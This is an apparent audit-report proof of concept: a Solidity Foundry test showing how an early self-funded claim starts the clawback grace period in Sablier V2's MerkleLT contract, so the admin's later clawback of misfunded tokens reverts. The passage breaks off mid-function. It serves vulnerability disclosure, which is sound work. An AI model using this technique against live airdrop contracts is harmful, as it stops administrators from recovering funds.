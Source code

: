### Coded PoC
To test the scenario please make a file named `Ninja.t.sol` in this path: `/v2-periphery/test/integration/merkle-lockup/` and paste the following test code in it:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity >=0.8.22;

import { ISablierV2MerkleLT } from "src/interfaces/ISablierV2MerkleLT.sol";
import { Errors } from "src/libraries/Errors.sol";
import { Integration_Test } from "../Integration.t.sol";

contract Ninja is Integration_Test {
    function setUp() public virtual override {
        Integration_Test.setUp();
        deal({ token: address(dai), to: users.recipient1, give: defaults.CLAIM_AMOUNT() });
    }

    function test_clawbackFailedAfterEarlyClaim() external {
        // Admin creates the campaign (Deploying the merkleLT)
        merkleLT = createMerkleLT();

        // merkleLT isn't funded yet
        assert(dai.balanceOf(address(merkleLT)) == 0);

        // Bob immediately funds the Merkle Lockup equal to his claim amount and then calls the claim()
        // Grace period starts from now
        vm.startPrank(users.recipient1);
        dai.transfer(address(merkleLT), defaults.CLAIM_AMOUNT());
        claimLT();
        vm.stopPrank();

        // 8 days later the Admin funds the merkleLT to airdrop the tokens
        vm.warp({ newTimestamp: block.timestamp + 10 days });
        vm.prank(users.admin);
        deal({ token: address(dai), to: address(merkleLT), give: defaults.AGGREGATE_AMOUNT() });

        // Admin realizes the merkle tree is incorrect/malicious and calls the clawback() to retrieve the funds
        // but the transaction reverts because the grace period has ended
        uint128 clawbackAmount = uint128(dai.balanceOf(address(merkleLT)));
        vm.expectRevert(
            abi.encodeWithSelector(
                Errors.SablierV2MerkleLockup_ClawbackNotAllowed.selector,
                block.timestamp,
                defaults.EXPIRATION(),
                defaults.FIRST_CLAIM_TIME()
            )
        );
        vm.prank(users.admin);
        merkleLT.clawback({ to: users.admin, amount: clawbackAmount });
    }

    ////////////////////////////////////////////////////////////////
    ////////////////////  INTERNAL FUNCTIONS  //////////////////////
    ////////////////////////////////////////////////////////////////

    function createMerkleLT() internal returns (ISablierV2MerkleLT) {
        return createMerkleLT(users.admin, defaults.EXPIRATION());
    }

    function createMerkleLT(address admin, uint40 expiration) internal returns (ISablierV2MerkleLT) {
```